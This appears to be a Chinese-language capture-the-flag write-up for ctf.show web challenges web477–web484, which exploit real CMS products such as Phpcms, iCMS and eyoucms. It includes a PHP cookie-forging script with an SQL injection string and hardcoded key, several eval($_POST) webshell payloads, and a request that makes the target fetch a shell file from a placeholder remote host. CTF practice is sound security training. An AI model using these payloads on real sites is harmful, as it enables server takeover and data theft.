

没给源码的我就当黑盒审了吧

## web477

**cmseasy**

访问`http://76760d3c-bb08-4072-a57e-6b93fecc4895.challenge.ctf.show/cache/data/inf.txt`得到版本**7.0**

后台`/admin`，弱密码`admin admin`登陆

> 在 模板 ==> 自定义标签 ==> 添加自定义标签 处可直接添加`<?php phpinfo()?>`并被当作php代码解析，里面有flag

## web478

**Phpcms V9.6.0**

给出安装路径自行安装


已知后台账号密码


直接搜**Phpcms V9.6.0**就可看到[phpcms v9.6.0任意文件上传漏洞(CVE-2018-14399)](https://www.cnblogs.com/yuzly/p/11394620.html)

按里面复现成功**getshell**


## web479

**iCMS V7.0.1**

**hint**

> 默认key:n9pSQYvdWhtBz3UHZFVL7c6vf4x6fePk

[ICMSv7.0.1 admincp.class.php sql注入分析](https://chybeta.github.io/2017/09/12/ICMSv7-0-1-admincp-class-php-sql%E6%B3%A8%E5%85%A5%E5%88%86%E6%9E%90/)

没给出**cookie**伪造的脚本，去翻源码


```php
<?php
define('iPHP_KEY','n9pSQYvdWhtBz3UHZFVL7c6vf4x6fePk');

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
	$ckey_length   = 8;
	$key           = md5($key ? $key : iPHP_KEY);
	$keya          = md5(substr($key, 0, 16));
	$keyb          = md5(substr($key, 16, 16));
	$keyc          = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

	$cryptkey      = $keya.md5($keya.$keyc);
	$key_length    = strlen($cryptkey);

	$string        = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);

	$result        = '';
	$box           = range(0, 255);

	$rndkey        = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
		$j       = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp     = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a       = ($a + 1) % 256;
		$j       = ($j + $box[$a]) % 256;
		$tmp     = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result  .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
}
$sep = "#=iCMS=#";
$username = "'or 1=1#";
$password = "1";
$payload = $username.$sep.$password;
echo authcode($payload,'ENCODE');
```

伪造**cookie**

```json
{'iCMS_iCMS_AUTH': 'df8da53ee9CVSWJjkHSFUf1cyhN4Yq4aBucPDrsb/tGn0VnNEfBzUN4hqcJ8Wzf91w'}
```



或者利用[cmspoc](https://github.com/chybeta/cmspoc)，改改里面的密钥

```bash
python2 cmspoc.py -t icms -s v701_sqlinject_getadmin -u http://393e03e7-d10b-488e-9517-8c442463f5ad.challenge.ctf.show/admincp.php
```

## web480

给出了源码

**config.class.php**

```php
<?php
class config{
	public static function init(){
		foreach ($_REQUEST['conf'] as $key => $value) {
	     	config::change($key, $value);
		}
	}

	public static function change($k,$v){
		$conf = self::parseFile('config.php');
	    $conf[$k] = $v;
	    self::saveValues($conf);
	}
	public static function parseFile($file)
    {
        $options = array();
        foreach (file($file) as $line) {
            $line = trim(preg_replace(array("/^.*define\([\"']/", "/[^&][#][@].*$/"), "", $line));
            if ($line != "" && substr($line, 0, 2) != "<?" && substr($line, -2, 2) != "?>") {
                $line = str_replace(array("<?php", "?>", "<?",), "", $line);

                $opts = preg_split("/[\"'],/", $line);

                if (count($opts) == 2) {
                    if (substr($opts[1], 0, 1) == '"' || substr($opts[1], 0, 1) == "'") {
                        $opts[1] = substr($opts[1], 1, -3);
                    } else {
                        $opts[1] = substr($opts[1], 0, -2);
                    }

                    if (substr($opts[0], -5, 5) == "_HTML") {
                        $opts[1] = eval("return " . $opts[1] . ";");
                    }
                    $options[$opts[0]] = str_replace("\'", "'", $opts[1]);
                }
            }
        }
        return $options;
    }
	public static function saveValues($values, $configname = '')  
    {
        $profile = null;
        $str = "<?php\n";
        foreach ($values as $directive => $value) {
            $directive = trim(strtoupper($directive));
            if ($directive == 'CURRENTCONFIGNAME') {  
                $profile = $value;
                continue;
            }
            $str .= "define(\"$directive\",";
            $value = stripslashes($value); 
            if (substr($directive, -5, 5) == "_HTML") {
                $value = htmlentities($value, ENT_QUOTES, LANG_CHARSET);
                $value = str_replace(array("\r\n", "\r", "\n"), "", $value);
                $str .= "exponent_unhtmlentities('$value')";
            } elseif (is_int($value)) {
                $str .= "'" . $value . "'";
            } else {
                if ($directive != 'SESSION_TIMEOUT') {
                    $str .= "'" . str_replace("'", "\'", $value) . "'"; 
                }
                else {
                    $str .= "'" . str_replace("'", '', $value) . "'";
                }
            }
            $str .= ");\n";
        }

        $str .= '?>';
        if ($configname == '') {
            $str .= "\n<?php\ndefine(\"CURRENTCONFIGNAME\",\"$profile\");\n?>"; 
        }
        self::writeFile($str, $configname);
    }

    public static function writeFile($str, $configname = '')
    {
        if ($configname == "") {
            $configname = "config.php";
        }
        $conffolder = pathinfo($configname);
        if (file_exists($configname)) {
            $fh = fopen($configname, "w");
            fwrite($fh, $str);
            fclose($fh);
        } else {
            echo('Unable to write configuration') . '<br />';
        }
    }


}
```

**config.php**

```php
<?php
define("HOST",'127.0.0.1');
define("USER",'ctfshow');
define("PASSWORD",'ctfshow');
define("DATABASE",'ctfshow');
?>
<?php
define("CURRENTCONFIGNAME","");
?>
```

**index.php**

```php
<?php
error_reporting(0);
include('config.php');
include('config.class.php');

config::init();

 ?>
 cms初始化成功
```

跟着调试一下就能发现


这两步可实现任意文件写入

**payload**

`?conf[CURRENTCONFIGNAME]=");?><?php%20eval($_POST[1]);//`

## web481

给出的源码

```php
<?php
error_reporting(0);

if(md5($_GET['session'])=='3e858ccd79287cfe8509f15a71b4c45d'){
$configs="c"."o"."p"."y";
$configs(trim($_GET['url']),$_GET['cms']);}

?>
nothing here
```

md5在cmd5里查出是`ctfshow`

**payload**

```
?session=ctfshow&url=/flag&cms=1.php
```

也可以在vps上写入一句话木马

```
?session=ctfshow&url=http://x.x.x.x:xxxx/shell.txt&cms=1.php
```

## web482

给出了源码

打开页面是一个安装成功的页面，但是默认目录是在`install`的


估计是要重安装

在`/install/index.php`中有如下代码

```php
if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
if($_GET) extract($_GET, EXTR_SKIP);
$submit = isset($_POST['submit']) ? true : false;
$step = isset($_POST['step']) ? $_POST['step'] : 1;
```

可以**POST**传**step**来选择安装的第几步

而只有`step_1`有如下限制

```php
if(file_exists("install.lock")){
echo "<div style='padding:30px;'>安装向导已运行安装过，如需重安装，请删除 /install/install.lock 文件</div>";
}
```

传**step**为2


一路安装成功得到flag（直接传`step=6`也可以


## web483

打开齐博cms的安装界面

直接登陆后台

在栏目管理处输入一句话木马

然后访问`/data/guide_fid.php`直接**getshell**

如果不知道管理员密码，也能配合sql注入拿到账号密码

## web484

eyoucms 前台getshell

访问`/index.php/api/Uploadify/preview`

```php
data:image/php;base64,PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==
```

data数据构造一句话木马

查看回显


访问`/preview/2f2fc58a9ff12cb8d8d6a7173ec5760e.php`  **getshell**